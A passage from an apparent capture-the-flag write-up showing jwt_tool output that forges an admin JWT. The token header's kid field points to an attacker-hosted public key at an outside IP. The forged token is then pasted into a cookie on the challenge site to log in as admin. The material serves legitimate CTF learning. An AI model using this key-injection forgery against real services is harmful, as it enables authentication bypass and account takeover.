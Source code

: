 ```bash
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 1

Current value of username is: test
Please enter new value and hit ENTER
> admin
[1] username = "admin"
[2] *ADD A VALUE*
[3] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_9c3c1b6b282f99d533da112190111af0 - Tampered token - RSA Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xNjcuOTkuMjIwLjk3L3Rlc3QucHViIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.kNPGxivW4nbWcLbX1z9HNN8brAGGt9lezS3eLieCIJgpsUY5-vkmYsL-QSbRZ09MA7sYdH7IOyFHVevlv4ShkUkF-Ckye7pf9KESNb1YrLDWP_NM26SE15FWJfQuqJ265IiiB4n4XyVSMmXemuCg4IVE3pbdyJltOyaO_M8a7Y1Nuroyk33ZWNlpuw-sNPBKfHa_Hi1maAWgqjdZkUs07kJBj2wW3tvC_zXYwF7mIj6QUrSDdITUUZz3csBSVet-s1j2J1PaIKV_BNZ2YJ06Awyv9mnBhOLDNFNOmoofCO_nZkgmjQZQIRaERAJ4e8DyNIhtcZqR2kMTbgV5a-YGcRGog_WZLDapgi_-Pw1mnCPmwib5YhpgY9yf9ubacjRkoF9VQUJZDBZeGMuGoi-fNHghbzkfT_0LnMIySM0GwzYwD4bEz3uBdiT0XnBtXVSsweLf_JuZhz_fbVb8IzCvPx0jSyPKjq0jQl55KyEOtdWnNdxIKVuu8BtrQcP2Amfg6_AUJTnPkbtKexixpBZC-Wuf52dG_j80VZR8hiWoYDfUs7PXPtUw2dj7TF2WLaOi2mxQD6fZCOW5VUs0chTgVIsTBWIlH5J13y27pGdYt10H4mZ7gDG3FiCM16At-zpBVhoMaTcYZgizeeU0YgUGQszzZoA1fUnQdYiteR489TQ
```

We can see that we have changed the `kid`-field to point to our newly created public key, changed the `username`-field to `admin` and created a new signed `JWT`.

Let's copy and paste our newly created token into the `jwt`-cookie and reload `http://rsxc.no:20015/portal.php`:

![](03.png "")

We are now logged in as the `admin`-user and can see the flag!

## Solution

